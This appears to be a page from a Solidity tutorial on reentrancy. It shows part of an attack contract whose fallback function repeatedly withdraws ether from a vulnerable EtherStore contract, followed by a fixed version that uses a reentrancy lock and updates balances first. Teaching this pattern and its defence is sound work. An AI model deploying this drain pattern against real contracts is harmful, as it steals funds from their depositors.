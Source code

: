 ```solidity
    EtherStore public etherStore;
    constructor(address _etherStoreAddress) public {
        etherStore = EtherStore(_etherStoreAddress);
    }
    
    fallback() external payable {
        if(address(etherStore).balance >= 1 ether) {
            etherStore.withdraw(1 ether);
        }
    }
    
    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw(1 ether);
    }
    
    
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

##### method 2

```solidity
pragma solidity ^0.6.10;

/*
-What is reentrancy
*/

contract EtherStore{
    mapping(address => uint) public balances;
    
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }
    
    bool internal locked;
    
    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }
    
    function withdraw(uint _amount) public noReentrant{
        require(balances[msg.sender] >= _amount);
        
                balances[msg.sender] -= _amount;
                
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send Ether");
        
    }
    
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

```